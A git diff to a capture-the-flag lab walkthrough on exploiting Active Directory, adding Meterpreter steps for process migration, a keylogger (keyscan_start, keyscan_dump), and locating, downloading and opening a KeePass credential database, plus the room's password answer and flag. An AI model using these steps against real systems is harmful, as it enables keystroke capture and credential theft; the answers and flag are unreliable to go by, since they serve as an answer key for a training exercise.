

Update Exploiting Active Directory

diff --git a/Room/ExploitingActiveDirectory/README.md b/Room/ExploitingActiveDirectory/README.md
@@ -696,7 +696,7 @@ Although persistence will only be discussed in the next room, now might be a goo
 
 * What is the password of the credential database?
 
-	``
+	`Imreallysurenoonewillguessmypassword`
 
 	* Create payload
 	
@@ -756,7 +756,7 @@ Although persistence will only be discussed in the next room, now might be a goo
 
 		![task5-trevor](./images/task5-trevor.png)
 
-	* Check again running processes to make sure `explorer.exe` start
+	* Check again running processes to make sure `explorer.exe` start by user
 	
 		```
 		ps | grep "explorer"
@@ -764,7 +764,61 @@ Although persistence will only be discussed in the next room, now might be a goo
 
 		![task5-explorer-run](./images/task5-explorer-run.png)
 
+	* Migrate to PID `explorer.exe`
+	
+		`migrate 3768`
+	
+		![task5-migrate](./images/task5-migrate.png)
+
+	* Confirm that we are now running in the context of our target
+	
+		`getuid`
+
+		![task5-getuid](./images/task5-getuid.png)
+
+	* Now we are ready to start our keylogger
+	
+		`keyscan_start`
+
+		![task5-keyscan](./images/task5-keyscan.png)
+
+	* Wait for a couple of minutes, and then run the following to dump captured keystrokes
+	
+		`keyscan_dump`
+
+		![task5-keydump](./images/task5-keydump.png)
+
 * What is the value of the flag stored in the credential database?
+
+	`THM{AD.Users.Can.Give.Up.Good.Secrets}`
+
+	* Find file `.kdbx`
+	
+		```
+		Get-Childitem -Path C:\ -Include *.kdbx -Recurse -ErrorAction SilentlyContinue
+		```
+
+		![task5-kdbx](./images/task5-kdbx.png)
+
+	* Download file `.kdbx` from our `meterpreter`
+	
+		```
+		download C:/Users/trevor.local/Documents/PasswordDatabase.kdbx
+		```
+
+		![task5-download](./images/task5-download.png)
+
+	* Open Databases with `KeePassX` and type the password
+	
+		```
+		keepassxc PasswordDatabase.kdbx
+		```
+
+		![task5-keepass](./image/task5-keepass.png)
+
+	* Get the flag
+	
+		![task5-flag](./images/task5-flag.png)
 
 ## Task 6 - Exploiting GPOs
 
